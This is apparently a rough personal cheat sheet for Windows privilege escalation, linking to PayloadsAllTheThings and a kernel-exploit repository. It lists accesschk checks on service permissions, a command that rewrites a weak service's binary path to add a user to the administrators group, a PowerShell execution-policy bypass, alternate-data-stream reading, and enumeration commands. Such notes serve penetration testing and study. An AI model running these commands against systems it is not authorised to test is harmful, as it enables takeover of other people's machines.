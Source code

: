 - <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md>


### Binary Paths 

- Access Checks `accesschk64.exe -uwcv Everone *` suppress errors, show service name, writeable, verbose  
- Specifically check service ACL `/.accesschk64.exe -uwvc daclsvc`
- query ervice `sc qc daclsvc`
- change bin path if you hae the change config flag `sc config daclsvc binpath= "net localgroup administrators username /add"`
- start service `sc start daclsvc`


### Unquoted Service Paths 

- look for unquoted service paths. 

### Windows Commands 

#### Find Files

- `where /R c:\windows bash.exe` find recurseivly bash.exe starting in c:\windows

#### Alternate Data Streams

- `dir /R` alternate data streams
- `more < hm.txt:root.txt:$DATA` - write out the alertnate data stream 


#### Power Shell

- executionpolicy bypass powerhsell one liner `powershell -ep bypass` 


### uncatagorized
- `schtasks /query /fo LIST /v` Scheduled Tasks /v is optional 
- `wmic product get name, version, vendor` enum apps 
- `c:\Tools\privilege_escalation\SysinternalsSuite>accesschk.exe -uws "Everyone" "C:\Prog
ram Files"` Check for file permissions 
- `Get-ChildItem "C:\Program Files" -R
ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}` Check File Permission PowerShell 
- `mountvol` check for unmounted volume 
- `driverquery /v /fo csv | convertfrom-CSV | select-object 'Display Name', 'Start Mode', Path` Driver enum (use powershell) 
- `Get-WmiObject Win32_PnPSignedDriver | select-object DeviceName, DeriverVersion, Manufacturer | where-object {$_.DeviceName -like "*VMware*"}` get driver version. 

### Kernel 

- <https://github.com/SecWiki/Windows-kernel-exploits/tree/master>

### Disks
